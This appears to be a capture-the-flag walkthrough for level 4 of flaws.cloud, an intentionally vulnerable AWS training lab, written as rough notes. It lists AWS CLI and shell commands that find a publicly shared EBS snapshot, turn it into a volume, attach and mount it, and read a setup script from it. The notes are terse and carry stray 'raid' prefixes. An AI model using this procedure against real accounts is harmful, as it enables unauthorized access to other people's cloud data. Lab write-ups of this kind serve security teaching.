 # EC2 Snapshot Accessible to All AWS User
Target: http://level4-1156739cfb264ced6de514971a4bef68.flaws.cloud/


<b>1. Retreive information about IAM user or role</b>
```
aws --profile flaws-cloud-3 sts get-caller-identity
```
![image](https://github.com/Krishna-Gopal-Pathak/CyberSecurity/assets/142927819/452b7b47-26aa-4219-9ca6-a44787c7d1ab)

<b>2.  describe snapshots owned by the specified AWS account</b>
```
aws --profile administrator ec2 describe-snapshots --owner-id 975426262029 --region us-west-2
```
![image](https://github.com/Krishna-Gopal-Pathak/CyberSecurity/assets/142927819/0908cfb9-0da9-42f9-84b0-1372b98292f6)


administrator ec2 copy-snapshot --source-region us-west-2 --source-snapshot-id snap-0b49342abd1bdcb89
open aws > set us-west-2 > ec2 > snapshot > create volume > create any ec2 instance > create new key pair > volume > attach instance > ssh instance > fdisk > mount /dev/xvdf1 /mnt > df > cd /mnt/ > ls > cd ubuntu/ > ls > cat setupNginx.sh


```
aws --profile flaws-cloud-3 ec2 describe-volumes --region us-west-2
aws --profile flaws-cloud-3 ec2 describe-snapshots --snapshot-id snap-0f23409e560e2f059
aws --profile flaws-cloud-3 sts get-caller-identity
aws --profile administrator ec2 describe-snapshots --owner-id 975426262029 --region us-west-2
raid aws --profile administrator ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id snap-0b49342abd1bdcb89
raid aws --profile administrator ec2 describe-volumes --region us-west-2
raid aws --profile administrator ec2 describe-instances --region us-west-2
raid aws --profile administrator ec2 attach-volume --volume-id vol-05bfa570a13845bfc --instance-id i-0a5fc34ac1277d241 --device /dev/sdf --region us-west-2
ls
ssh
lsblk
sudo mount /dev/xvdf1 /mnt
cd /mnt
ls
cd home
ls
cd ubuntu
ls
cat setupNginx.sh
```
